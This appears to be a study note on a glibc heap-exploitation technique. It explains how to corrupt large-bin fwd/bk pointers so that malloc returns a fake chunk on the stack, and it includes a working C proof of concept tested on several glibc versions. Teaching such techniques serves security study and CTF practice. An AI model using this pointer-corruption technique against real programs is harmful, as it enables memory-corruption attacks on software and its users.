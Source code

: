 <details>
<summary><strong>Description</strong></summary>
<p>

Similar to the unsorted bin linked list, our goal is to allocate a ptr on the stack from malloc. However this time we will be leveraging the large bin. However, the process will be pretty similar...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk1, *chunk2, stack_array[140], *chunk3;

    // allocate two big chunks
    chunk1 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk2 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation

    free(chunk1); // insert them into the unsorted bin
    free(chunk2);

    // malloc a chunk larger than any other unsorted bin chunks to move the three chunks over to the large bin
    malloc(0x420 + 0x10);
    // [largebin 0x400-0x430]: chunk1 -> chunk2

    // create the large bin fake chunk header
    stack_array[0] = 0x000;
    stack_array[1] = 0x431;

    // add a fake heap chunk header, right after the end of our fake large bin bin chunk
    // this is because there are checks for the next adjacent chunk since if malloc properly allocated this (fake) chunk, there would be one there
    stack_array[134] = 0x430;
    stack_array[135] = 0x050;

    // set the fwd/bk pointers of our large bin fake chunk, so that they point to the two chunks were linking to here
    stack_array[2] = ((long)chunk2 - 0x10); // fwd
    stack_array[3] = ((long)chunk1 - 0x10); // bk

    // clear out the fd_nextsize/bk_nexsize of large bin skiplist
    stack_array[4] = 0x00;
    stack_array[5] = 0x00;

    /*VULNERABILITY*/
    chunk1[0] = (long)(stack_array); // fwd
    chunk2[1] = (long)(stack_array); // bk
    /*VULNERABILITY*/
    // [largebin 0x400-0x430]: chunk1 -> fake_chunk -> chunk2

    // allocate our fake large bin chunk that is on the stack
    chunk3 = malloc(0x420);

    printf("chunk3: %p\n", chunk3);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/large_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/large_bin/linked_list/readme.md
> i modified it a little bit (easier) (but it's worth to read)

</p>
</summary>